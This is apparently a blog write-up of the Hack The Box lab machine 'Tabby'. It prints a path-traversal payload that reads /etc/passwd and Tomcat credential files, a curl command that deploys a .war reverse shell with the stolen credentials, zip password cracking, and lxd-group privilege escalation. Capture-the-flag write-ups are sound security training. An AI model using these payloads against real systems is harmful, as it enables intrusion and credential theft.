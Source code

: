 ```yaml
---
id: 3532
title: 'Hackthebox &#8211; Tabby'
date: '2022-04-15T12:07:30+00:00'
author: vedanttare
excerpt: 'In this post, we are going to be pwning "Tabby" from Hackthebox.'
layout: post
guid: 'http://vedanttare.com/?p=3532'
permalink: /hackthebox-tabby/
powerkit_share_buttons_transient_facebook:
    - '1692134049'
powerkit_share_buttons_transient_pinterest:
    - '1727803909'
image: 'http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-09-22-at-3.28.45-PM-1-496x166.png'
categories:
    - Writeups
---
```


![](http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-09-25-at-11.21.40-AM.png)

IP addr: 10.10.10.194,

Misc Info: Email id found – sales@megahosting.htb

## Enumeration

Starting off with a basic nmap scan: `sudo nmap -sC -sV -O -p- -oA nmap/tabby 10.10.10.194`, we get,

Checking on port 80, on megahosting website, there is an LFI in file parameter:  
`http://www.megahosting.htb/news.php?file=../../../../../etc/passwd`

![](http://vedanttare.com/wp-content/uploads/2022/04/etcpasswd-file.png)

Also add www.megahosting.htb to /etc/hosts. This domain is showed when navigated to the IP address on port 80. Now there was a apache tomcat 9 (9.0.31) server running on 8080.

![](http://vedanttare.com/wp-content/uploads/2022/04/port-8080.png)

It was leaking many paths, which were the local paths to the tomcat server hosting. From there we can try and retrieve the username:password file to get creds and login to the manager app and upload a .war rev shell.  
Credentials file path: `http://10.10.10.194:8080/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml`

![](http://vedanttare.com/wp-content/uploads/2022/04/tomcat-creds.png)

From here we could get the credentials:

![](http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-04-15-at-5.28.33-PM.png)

We could also check for the creds in the repeater tab of burp:

![](http://vedanttare.com/wp-content/uploads/2022/04/creds-from-repeater.png)

Now there was a problem we could only login to the host-manager app and not the manager app, so we could not use the gui to upload a .war rev shell. Hence, we used curl to upload the file to the default location in the manager app:

`curl -v -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war "http://10.10.10.194:8080/manager/text/deploy?path=/shelling`

![](http://vedanttare.com/wp-content/uploads/2022/04/curl-upload.png)

Now setting up a netcat listener and then calling the file using curl again:  
`curl http://10.10.10.194:8080/shelling (path which we had specified while uploading)`

And BOOM!…We get a rev shell!!!!

## Privilege Escalation

For privesc we had to unzip a zipped backup file which was in /var/www/html/files/16(something)\_backup.zip. We then used fcrackzip to decrypt the password of the file:  
`fcrackzip -D -p rockyou.txt 16(something)_backup.zip`

Hence, we got the password as: `admin@it`

We checked the zipped file by unzipping it by providing the password but we didn’t find anything interesting there. So, we just used that password to switch to ash user:  
`su ash`  
`enter password: admin@it`

And BOOM!!!…We got logged in as user ash.

Now, for root privesc we saw that the ash user was a member of the `lxd` group. So, we created and image using `lxd/lxc` and got root!!!!!

First method to escalate privileges using `lxd` group:

![](http://vedanttare.com/wp-content/uploads/2022/04/lxd-privesc-1.png)

Second method to escalate privileges using `lxd` group:

![](http://vedanttare.com/wp-content/uploads/2022/04/lxd-2.png)

Important links and resources:

[https://www.hackingarticles.in/lxd-privilege-escalation/](<LINK: https://www.hackingarticles.in/lxd-privilege-escalation/>)

[https://debian.pkgs.org/10/debian-main-amd64/tomcat9\_9.0.31-1~deb10u2\_all.deb.html](https://debian.pkgs.org/10/debian-main-amd64/tomcat9_9.0.31-1~deb10u2_all.deb.html)

<https://packages.ubuntu.com/focal/all/tomcat9-common/filelist>

<https://packages.debian.org/sid/all/tomcat9/filelist>

<https://askubuntu.com/questions/135824/what-is-the-tomcat-installation-directory>

Check out my previous post:

<figure class="wp-block-embed is-type-wp-embed is-provider-vedant-tare wp-block-embed-vedant-tare"><div class="wp-block-embed__wrapper">> [Hackthebox – Blocky](https://vedanttare.com/hackthebox-blocky/)

<iframe class="wp-embedded-content" data-secret="ml3ORxLUIa" frameborder="0" height="338" marginheight="0" marginwidth="0" sandbox="allow-scripts" scrolling="no" security="restricted" src="https://vedanttare.com/hackthebox-blocky/embed/#?secret=9zavCy4OwI#?secret=ml3ORxLUIa" style="position: absolute; clip: rect(1px, 1px, 1px, 1px);" title="“Hackthebox – Blocky” — VEDANT TARE" width="600"></iframe></div></figure>